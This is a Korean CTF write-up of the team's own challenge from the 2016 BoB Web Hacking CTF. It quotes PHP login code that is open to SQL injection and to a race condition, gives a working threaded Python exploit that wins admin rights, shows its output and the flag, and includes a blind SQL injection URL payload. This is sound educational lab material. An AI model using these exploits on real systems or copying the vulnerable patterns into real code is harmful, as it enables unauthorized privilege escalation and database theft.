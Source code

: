 BoB Web Hacking CTF 강남백반 팀 Write-Up
============
2016.08.27 강남 미림타워 BoB 센터에서 작성<br>
2016.08.31 한양대학교 ERICA 캠퍼스에서 업로드
<br><br>
[CTF 문제 파일 / 설치법](https://github.com/huna3869/hunadiary/blob/master/Uploads/bobctf/)<br><br>
출제도 풀이도 모두 즐거웠던 BoB Web Hacking CTF가 끝이 났습니다. 출제를 할 당시에, 많은 분들이 해킹에 능통하시기 때문에 처음에는 조금 더 복잡한 형태의 문제를 내길 바랬습니다만, 만들면 만들수록 억지스러운 방법을 요구하는 것 같아서 최대한 자연스러운 형태로 접근하기 어려운 문제를 내어보고자 하는 취지에서 간단한 Race Condition 문제를 출제 했습니다. 실제로 대회에서도 기대했던 대로 3-4팀 정도가 풀어 주셨습니다.
<br>
# 1. 의도한 취약점 : Race Condition
원래의 의도는 게시판에서는 어떠한 취약점도 발견이 되지 않도록 해서, 게시판 취약점을 찾는 것을 포기하게 하고, 로그인 부분에서 두 번의 Request가 들어가는 것, 그리고 관리자 전용 로그인 페이지와 일반 유저의 로그인 페이지가 하나의 인증을 경유한다는 점을 들어 인증 정보를 따로 보내 준다는 것을 눈치 채고 Race Condtion을 이용한다는 시나리오입니다.<br><br>
Auth.php를 보면
<pre><code>
    $query = "INSERT INTO member (id,pass,name,mail,phonenumber) VALUES ('$nick','$word','$name','$mail','$number')";

	$results = mysqli_query($db,$query);
		
	$sql = "INSERT into access (id, Auth) values ((select id from member where id='$nick'), 'TRUE');";

  	mysqli_query($db, $sql);

	mysqli_close($db);
	
</code></pre>
위와 같이 두 번의 INSERT 문을 거칩니다. 그 말은 곧, 두 쿼리문 사이에 미세한 시간의 차이가 발생한다는 의미입니다.<br><br>
그리고 관리자 로그인 페이지와 일반 로그인 페이지가 모두 거치는 인증 페이지인 login_check.php를 보면,
<pre><code>         
        $uid = $arr['id'];
      		$sql = "SELECT Auth from access where id='$uid' and Auth='TRUE';";
		$result = mysqli_query($db,$sql);
		$arr = $result->fetch_assoc();
	
		if($arr['Auth']){
		$_SESSION['user_id'] = $uid;
		echo "<script>alert(\"로그인 성공~!! $uid 님 환영합니다!\");
		location.replace('list.php');</script>";
		}

		else{
		$_SESSION['user_id'] = $uid;
		$q = "update member set role='admin' where id='$uid'";
		$result = mysqli_query($db,$q);
		echo "<script>alert(\"관리자님 환영합니다!\");
		location.replace('list.php');</script>";
		}
		
</code></pre>
Auth 인자가 True일 경우에는, 일반 사용자로 로그인이 되고, False일 경우에는 관리자 권한 재부여와 함께 관리자 페이지로 이동을 합니다. 이 때, 회원가입에서 Auth 인자가 부여되기 전에 로그인을 하면, Auth 인자는 NULL값이므로, False로 취급되어 관리자 권한을 부여받을 수 있게 되는 취약점이 있는 것입니다. 
<br><br>
저는 다음과 같은 공격 코드를 작성하여 관리자 권한을 취득 했습니다.
<pre><code>
#!/usr/bin/env python3

import requests
import string
import re
import random
import threading

url_register = "http://192.168.1.103/auth.php"
url_login = "http://192.168.1.103/login_check.php"

def register(username, password):
	data = {'nick' : username, 'word' : password,'words' : password, 'name' : 'hacker', 'mail' : 'admin@hacker.com', 'number' : '01022223333'}
	a = requests.post(url_register, data=data).content.decode('UTF-8')
	if a.find("성공") != -1:
		print("등록 성공")
	else :
		print("등록 실패")

def login(username, password):
	data = {'id' : username, 'pw' : password}
	c = requests.post(url_login, data=data).content.decode('UTF-8')
	if c.find("관리자님") != -1:
		print("관리자 아이디 : "+username+" 관리자 비밀번호 : "+password)
	else:
		print("일반 계정이 생성됨")

while True:
	username = ''.join(random.choice(string.ascii_letters) for _ in range(10))
	password = 'hacker'

	t1 = threading.Thread(target=register, args=(username, password,))
	t2 = threading.Thread(target=login, args=(username, password,))
	t1.start()
	t2.start()
	t1.join()
	t2.join()
	
</code></pre>
위 코드의 실행 결과는 다음과 같습니다.
<pre><code>
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
등록 성공
관리자 아이디 : doUEALiMWf 관리자 비밀번호 : hacker
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공
일반 계정이 생성됨
등록 성공

</code></pre>

몇 번의 시도 끝에 관리자 계정이 생성이 되고, 해당 관리자 계정을 이용해 관리자 페이지로 접근을 하면, 회원 데이터베이스를 열람할 수 있으므로, 그 곳에 있는 플래그 값인 **MoM\_NoW\_1\_Kn0W\_Wh4T\_tIM1NG\_I5**를 확인 할 수 있습니다.

# 2. 의도하지 않은 취약점 : SQL Blind Injection

게시판을 완전히 취약점 없는 상태로 만들고자 했던 저희의 바램과는 달리, 게시판에는 취약점이 있었는데, 그것이 SQL Blind Injection입니다. <br>
<pre><code>http://192.168.1.103/download.php?No=IF((1=2),178,176)</pre></code>
위와 같이, download.php의 No 인자에 SQL Blind Injection이 가능해서 DB의 대부분의 정보를 열람할 수 있습니다.<br>
간단한 스크립트를 이용하면 플래그를 알아내는 것도 시간 문제였을 것입니다. <br>
저희의 풀이는 여기까지입니다. 저는 게시판 개발자를 죽이러 가야해서 여기서 그만 줄이겠습니다. 감사합니다.